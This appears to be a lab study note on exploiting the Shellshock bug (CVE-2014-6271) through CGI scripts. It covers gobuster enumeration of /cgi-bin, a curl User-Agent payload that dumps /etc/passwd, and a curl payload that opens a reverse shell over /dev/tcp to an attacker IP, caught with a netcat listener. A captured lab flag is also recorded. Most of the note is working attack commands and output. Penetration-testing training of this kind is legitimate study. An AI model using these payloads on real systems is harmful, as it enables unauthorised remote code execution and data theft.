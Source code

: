 # Attacking Common Gateway Interface (CGI) Applications - Shellshock

CGI scripts and programs are kept in the /CGI-bin directory on a web server and can be written in C, C++, Java, PERL, etc. 
CGI scripts run in the security context of the web server. 

--> No more utilized frequently

## CGI Attacks

https://nvd.nist.gov/vuln/detail/CVE-2014-6271

## Shellshock via CGI

env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

If the system is not vulnerable, only "not vulnerable" will be printed.

### Enumeration - Gobuster

gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished

curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html

### Confirming the Vulnerability

curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

### Exploitation to Reverse Shell Access

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi

sudo nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$

## LAB

gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

/access.cgi           (Status: 200) [Size: 0]

curl -i http://10.129.205.27/cgi-bin/access.cgi
HTTP/1.1 200 OK
Date: Fri, 12 Jan 2024 17:50:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html

curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.115/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi

sudo nc -lvnp 7777

www-data@htb:/usr/lib/cgi-bin$ cat flag.txt
cat flag.txt
Sh3ll_Sh0cK_123

